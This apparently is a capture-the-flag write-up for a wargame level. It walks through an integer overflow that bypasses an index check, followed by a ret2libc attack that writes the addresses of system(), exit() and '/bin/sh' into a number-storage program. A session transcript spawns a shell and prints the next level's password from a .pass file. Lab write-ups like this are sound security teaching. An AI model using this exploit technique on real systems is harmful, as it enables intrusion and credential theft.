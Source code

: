 # Level07

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a buffer overflow and an integer overflow to overwrite the EIP. Thanks to our analysis we know that the buffer offset is **456** bytes and since this buffer is storing integers, it is equivalent to the **114** integers.

However, there is a protection that prevents us to write on indices that are either a multiple of **3** or higher than **127**. Since **114** is a multiple of **3** we need to overflow in order to access this index like so:

```C
  unsigned int index = (UINT_MAX + 1) / 4 + 114
```

> Since `UINT_MAX` equals **4294967295**, `index` value is **1073741938**.

Then all we have to do is to retrieve some addresses that we'll convert to decimal:

- `system()` function (`0xf7e6aed0` => **4159090384**)
- `exit()` function (`0xf7e5eb70` => **4159040368**)
- `/bin/sh` string (`0xf7f897ec` => **4160264172**)

All we have to do now is to build a ret2libc attack using indices **1073741938** (**114**), **115** and **116**, holding respectively `system()`, `exit()` and `/bin/sh` using the `store` command. Once we do that, if we invoke `quit` it leaves the infinite loop and go to the next instruction, our exploit and gives us a shell!

```shell
  $> ./level07 
  ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
  ----------------------------------------------------
  Commands:                                          
      store - store a number into the data storage    
      read  - read a number from the data storage     
      quit  - exit the program                        
  ----------------------------------------------------
    wil has reserved some storage :>                 
  ----------------------------------------------------

  Input command: store
  Number: 4159090384
  Index: 1073741938
  Completed store command successfully
  Input command: store
  Number: 4159040368
  Index: 115
  Completed store command successfully
  Input command: store
  Number: 4160264172
  Index: 116
  Completed store command successfully
  Input command: quit
  $ cat /home/users/level08/.pass
  7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

So next user credentials pair is `level08:7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`.

Check [here](../source.c) for reproduction source-code of this binary.
